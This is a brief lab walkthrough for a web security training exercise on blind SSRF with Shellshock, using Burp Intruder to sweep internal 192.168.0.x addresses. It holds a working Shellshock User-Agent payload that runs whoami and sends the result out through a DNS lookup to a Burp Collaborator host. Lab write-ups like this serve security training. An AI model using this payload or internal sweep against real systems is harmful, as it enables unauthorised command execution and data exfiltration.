 # Lab: Blind SSRF with Shellshock exploitation

Open a product page with the proxy turned on to intercept the request. Open Burp Collaborator and copy a payload. Send the request to the intruder.

Open Burp Collaborator and copy the payload url.

In intruder, clear out the payload locations. Replace the `Referrer` header in the request to use `http://192.168.0.1:8080`, and set the last octet of the ip to be a variable. Use the following Shellshock payload in place of the `User-Agent` header: 

`() { :; }; /usr/bin/nslookup $(whoami).<subdomain>.burpcollaborator.net`

In the paylod tab, set the variable to use numbers 0-255 with a step of 1.

Run the attack and monitor the collaborator interactions. When a DNS interaction is made, check the payload to see that the OS user is returned - `peter-ywEkRG`

Submit the answer to complete the lab.